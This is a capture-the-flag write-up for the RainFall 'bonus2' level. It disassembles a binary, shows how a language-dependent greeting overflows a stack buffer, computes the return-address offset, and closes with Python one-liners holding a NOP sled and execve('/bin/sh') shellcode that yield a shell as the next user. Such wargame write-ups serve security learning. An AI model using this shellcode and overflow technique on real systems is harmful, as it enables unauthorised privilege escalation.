 # Bonus2

before we start disass the main we check objdump and we found there is a global variable call **language**

```c
bonus2@RainFall:~$ objdump -t bonus2| grep .bss
08049980 l    d  .bss	00000000              .bss
08049980 l     O .bss	00000001              completed.6159
08049984 l     O .bss	00000004              dtor_idx.6161
08049980 g       *ABS*	00000000              __bss_start
08049988 g     O .bss	00000004              language
```

Lets disass the main function

we found in the begining this program chech if argc isnot equal to 3 leave and then fill size 0x13 in memory by 0

```c
   0x08048538 <+15>:	cmp    DWORD PTR [ebp+0x8],0x3
   0x0804853c <+19>:	je     0x8048548 <main+31>
   0x0804853e <+21>:	mov    eax,0x1
   0x08048543 <+26>:	jmp    0x8048630 <main+263>
   0x08048548 <+31>:	lea    ebx,[esp+0x50]
   0x0804854c <+35>:	mov    eax,0x0
   0x08048551 <+40>:	mov    edx,0x13
   0x08048556 <+45>:	mov    edi,ebx
   0x08048558 <+47>:	mov    ecx,edx
   0x0804855a <+49>:	rep stos DWORD PTR es:[edi],eax
```

After that took 0x28 characters of argv[1] and copy it into `esp+0x50` the buffer that we just clear it, and complete the rest with 0x20 of argv[2]

```c
   0x0804855c <+51>:	mov    eax,DWORD PTR [ebp+0xc]
   0x0804855f <+54>:	add    eax,0x4
   0x08048562 <+57>:	mov    eax,DWORD PTR [eax]
   0x08048564 <+59>:	mov    DWORD PTR [esp+0x8],0x28
   0x0804856c <+67>:	mov    DWORD PTR [esp+0x4],eax
   0x08048570 <+71>:	lea    eax,[esp+0x50]
   0x08048574 <+75>:	mov    DWORD PTR [esp],eax
   0x08048577 <+78>:	call   0x80483c0 <strncpy@plt>
   0x0804857c <+83>:	mov    eax,DWORD PTR [ebp+0xc]
   0x0804857f <+86>:	add    eax,0x8
   0x08048582 <+89>:	mov    eax,DWORD PTR [eax]
   0x08048584 <+91>:	mov    DWORD PTR [esp+0x8],0x20
   0x0804858c <+99>:	mov    DWORD PTR [esp+0x4],eax
   0x08048590 <+103>:	lea    eax,[esp+0x50]
   0x08048594 <+107>:	add    eax,0x28
   0x08048597 <+110>:	mov    DWORD PTR [esp],eax
   0x0804859a <+113>:	call   0x80483c0 <strncpy@plt>
```

and then cal getenv of "LANG" and they check using memcmp the first two letters of return getenv if its equal of one of those address

`0x804873d:	 "fi"` or `0x8048740:	 "nl"` if it equal to the first one they set language = 1 if the second one language = 2

after this check they call a function `<greetuser>`

in this function they check first the value of language we have 3 cases

```c
   0x0804848a <+6>:	    mov    eax,ds:0x8049988 <= 'language'
   0x0804848f <+11>:	cmp    eax,0x1
   0x08048492 <+14>:	je     0x80484ba <greetuser+54>
   0x08048494 <+16>:	cmp    eax,0x2
   0x08048497 <+19>:	je     0x80484e9 <greetuser+101>
   0x08048499 <+21>:	test   eax,eax
   0x0804849b <+23>:	jne    0x804850a <greetuser+134>
```

and then concat the value we insert with one of those depends on the language

```c
(gdb) x/s 0x8048710
0x8048710:	 "Hello "
(gdb) x/s 0x804872a
0x804872a:	 "Goedemiddag! "
(gdb) x/s 0x8048717
0x8048717:	 "Hyv\303\244\303\244 p\303\244iv\303\244\303\244 "
(gdb) x/s 0x8048717
0x8048717:	 "Hyv\303\244\303\244 p\303\244iv\303\244\303\244 "
```

we test to fill 0x28(40) + 0x20(32) = 72 to understand what happend in the memory we set breakpoint in <+152> greetuser we run the program with `'B' * 40 'A'*32`

```
(gdb) x/100wx $esp
0xbffff5a0:	0xbffff5b0	0xbffff600	0x00000001	0x00000000
0xbffff5b0:	0x6c6c6548	0x4242206f	0x42424242	0x42424242
0xbffff5c0:	0x42424242	0x42424242	0x42424242	0x42424242
0xbffff5d0:	0x42424242	0x42424242	0x42424242	0x41414242
0xbffff5e0:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff5f0:	0x41414141	0x41414141	0x41414141	0x08004141
(gdb) x/x $ebp+0x4
0xbffff5fc:	0x08004141  we change the return address
```

so lets change the language and do the same test

```c
0xbffff5a0:	0xbffff5b0	0xbffff600	0x00000001	0x00000000
0xbffff5b0:	0xc3767948	0x20a4c3a4	0x69a4c370	0xc3a4c376
0xbffff5c0:	0x424220a4	0x42424242	0x42424242	0x42424242
0xbffff5d0:	0x42424242	0x42424242	0x42424242	0x42424242
0xbffff5e0:	0x42424242	0x42424242	0x41414242	0x41414141
0xbffff5f0:	0x41414141	0x41414141 |0x41414141|	0x41414141

the value selected is the return address
```

so in this case we just need to calculate the offset and add shellcode in the begining and change the return address

i used this website to calculate the offset  
 https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/

```c
Hyvää päivää BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBAa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab

Program received signal SIGSEGV, Segmentation fault.
0x41366141 in ?? ()
(gdb)
```

```c
bonus2@RainFall:~$ python -c "print 'B' * 18 + '\xc8\xf5\xff\xbf' + 'B' *30" > b
bonus2@RainFall:~$ python -c "print '\x90' * 6 + '\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80' + 'A' * 30" > a
bonus2@RainFall:~$ ./bonus2 `cat a` `cat b`
Hyvää päivää ������j
                    X�Rh//shh/bin��1�̀AAAAAAAAAAAAABBBBBBBBBBBBBBBBBB����BBBBBBBBBB
$ whoami
bonus3
$
```
